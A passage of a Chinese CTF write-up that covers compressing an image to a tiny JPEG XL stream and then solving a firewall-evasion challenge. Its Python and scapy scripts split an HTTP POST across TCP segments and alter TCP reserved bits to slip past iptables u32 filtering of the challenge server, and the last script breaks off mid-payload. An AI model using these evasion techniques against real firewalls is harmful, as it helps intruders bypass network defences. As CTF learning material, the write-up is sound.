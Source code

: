运行 `tools/cjxl in.pfm out.jxl -d 0 -e 10 --brotli_effort=11  --allow_expert_options -g 3`，跑了 20 分钟出来了。

然后把文件头去掉，只留 code stream，就只剩 46 字节了。

但是，尝试用 libvips 读取，却发现大部分像素不再是 nan，而是一个奇怪的 `2.7670116110564327e+19`。不过这个数和 nan 其实只差了一个 bit，于是我在文件里随机改 bit 观察结果，很快定位到了这个 bit，然后就通过了。

# Komm, süsser Flagge

## 我的 POST

不能出现完整的 `POST`，那就拆成两部分发过去。

```python
import socket
import time

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

%s''' % (len(token), token)

payload = payload.replace('\n', '\r\n').encode()

s = socket.socket()
s.connect(('202.38.93.111', 18080))
s.send(payload[:2])
time.sleep(1)
s.send(payload[2:])
print(s.recv(1024))
```

## 我的 P

主要参考了这一篇来理解：[简单的益智类小游戏: iptables u32 过滤器，强大且好玩](https://zhuanlan.zhihu.com/p/584722105)。

然后发现，这就是在尝试判断 TCP 内容的第一个字符，要求它不能是 `P`。

但是 `@ 12 >> 26` 这一步，取到的不止有 `data offset`，还有 `reserved`。如果修改 `reserved` 让他偏移，就能绕过限制了。

实现上，我虽然知道各种语言都支持 raw socket，但是手动计算 checksum 之类的还挺烦的。最后一通搜索，发现有 scapy 这个库可以方便的构造包。

然后又是一通搜索、调试，然后发现莫名其妙被 RST，结果是本机对远端发来的 `SYNACK` 包 RST 了。总之又是通过 iptables 让系统不要插手。

```python
from scapy.all import *

sport = random.randint(1024, 65535)
init_seq = random.randint(0, 2**32 - 1)

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

```